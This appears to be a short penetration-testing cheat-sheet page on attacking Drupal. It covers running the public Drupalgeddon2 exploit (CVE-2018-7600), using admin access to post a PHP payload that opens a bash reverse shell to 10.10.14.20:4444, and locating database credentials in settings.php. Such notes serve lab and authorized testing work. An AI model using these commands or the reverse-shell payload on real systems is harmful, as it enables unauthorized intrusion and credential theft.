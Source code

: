 # Drupal

## Drupalgeddon \(&lt;7.58, &lt;8.5.1, &lt;8.46, &lt;8.3.9\) - CVE-2018-7600 

All version of drupal lower than 7.58 are vulnerable to RCE.

```text
ruby drupalgeddon2.rb http://<ip>/
```

{% embed url="https://github.com/dreadlocked/Drupalgeddon2" %}

## From Admin to Reverse Shell

Firstly we need to enable `PHP filter` on Modules tab.

![](../.gitbook/assets/drupal_01.png)

And go to Content -&gt; +Add Content -&gt; Article, select **PHP code** as Text Format and finally introduce the reverse shell on the body.

```text
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.20/4444>&1'"); ?>
```

![](../.gitbook/assets/drupal_02.png)

Finally clicking Preview button a reverse shell is spawned to our listener.

![](../.gitbook/assets/drupal_03.png)

## Config files

### Database Connection

```text
$DRUPAL/sites/default/settings.php
```

